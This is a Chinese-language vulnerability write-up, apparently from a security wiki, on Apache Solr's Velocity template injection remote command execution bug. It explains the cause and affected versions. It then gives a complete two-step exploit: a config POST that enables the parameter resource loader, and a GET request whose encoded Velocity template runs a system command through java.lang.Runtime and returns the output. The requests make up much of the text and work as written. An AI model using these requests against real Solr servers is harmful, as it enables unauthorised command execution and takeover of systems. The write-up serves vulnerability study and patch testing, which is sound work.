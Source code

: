 Apache Solr Velocity模版注入远程命令执行
========================================

一、漏洞简介
------------

该漏洞的产生是由于两方面的原因：

1、当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。2、2Apache
Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。

二、漏洞影响
------------

经过测试，目前影响Apache Solr 8.1.1到8.2.0版本。

推测影响全版本Apache Solr。

三、复现过程
------------

### 手动检测

手动检测访问http://www.0-sec.org/8983/solr/\#/进入主界面，单击左侧的Core
Selector查看集合名称

![](/Users/aresx/Documents/VulWiki/.resource/ApacheSolrVelocity模版注入远程命令执行/media/rId25.png)

#### 1、post发送请求

    POST /solr/test/config HTTP/1.1
    Host: solr:8983
    Content-Type: application/json
    Content-Length: 259

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }

#### 2、执行系统命令

    GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
    Host: localhost:8983
